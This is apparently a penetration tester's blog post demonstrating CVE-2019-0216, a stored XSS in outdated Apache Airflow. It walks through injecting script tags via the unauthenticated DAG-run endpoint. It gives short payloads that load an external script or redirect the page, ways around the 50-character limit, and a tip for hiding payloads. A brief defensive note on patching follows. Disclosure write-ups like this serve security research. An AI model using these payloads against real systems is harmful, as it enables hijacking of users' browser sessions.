 ```yaml
---
layout: post
title:  "CVE-2019-0216 POC: Stored XSS in Apache Airflow"
toc: true
date:   2020-06-16
categories: network-pentest
---
```


# Motivation 

A while back I (and several other researchers concurrently) reported CVE-2019-0216 to Apache -- a stored XSS in Apache Airflow. Airflow is a workflow orchestration platform, and isn't uncommon to come across on an engagement. If you find an older installation there is a fun opportunity for getting stored XSS.


# Prerequisites

If the installation is out-of-date (< 1.10.3 according to Apache), it is theoretically vulnerable (though I can't currently reproduce against manual out-of-date installs from PyPI due to some severe dependency drift). In any case, Airflow suffered from this vulnerability in late February 2019 when it was reported to Apache.

Additionally, the CVE describes the vuln as being possibly exploited by a 'malicious admin', which is technically true, however auth is disabled by default. So if auth has been enabled, you'll need credentials to perform the attack.


# Exploiting

Visit the `/admin/dagrun/` endpoint (by default not password protected). 

If there aren't a few "DAG runs" listed, create a few, giving them any ID, and leave the state as 'running'.

![](/screens/airflow-bogus-ids.png)

Back on the listing screen, you'll notice that you can click on the 'running' status indicator and input HTML. 

![](/screens/airflow-inject-script.png)

The input is limited to 50 characters, which I believe was intended as an XSS defense, however this is easily overcome.

If you own a short domain, you can use the protocol inheritance and a short script name to just directly include your payload. Something like:

```
<script src="//127.0.0.1/j.js"></script>
```

Or, using variables, string concatenation, etc., you can glue a script together in separate rows of the table.

A simple example would be something like:

```
<script>_a="https://b4ny4n.github.io"</script>
```

... and then

```
<script>document.location=_a</script> 
```

As you save the rows, they're properly escaped into the page:

![](/screens/airflow-pre-render.png)

But on a fresh load of the page the content will be directly injected into the DOM:

![](/screens/airflow-output.png)

At this point you can drop your favorite xss payload. Depending on the state of the airflow installation (there could be many, many DAGs) you can also hide your payloads throughout rows below the page fold to be less obvious.

# If You're Defending

These kinds of issues are best prevented by a good scanning + patching cadence and basic password hygiene (like enabling authentication, and requiring strong passwords). 

